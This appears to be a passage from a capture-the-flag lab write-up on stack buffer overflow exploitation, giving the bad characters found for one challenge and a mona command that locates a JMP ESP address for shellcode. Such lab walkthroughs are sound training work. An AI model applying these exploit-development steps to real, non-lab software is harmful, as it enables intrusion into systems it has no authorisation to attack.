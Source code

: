 ![Badchars final](/images/THM/buffprep/of9/Captura7.PNG)

- In byte order (e.g. \x00\x01\x02) and including the null byte \x00, what were the badchars for OVERFLOW9?
>Answer: \x00,\x04,\x3e,\xef,\xe1

##### Finding Right Module

Time to find the jump point for the execution of our shellcode.

```sh
!mona jmp -r esp -cpb "\x00,\x04,\x3e,\xef,\xe1"
```

We can use the first one, with the vale **625011af**.
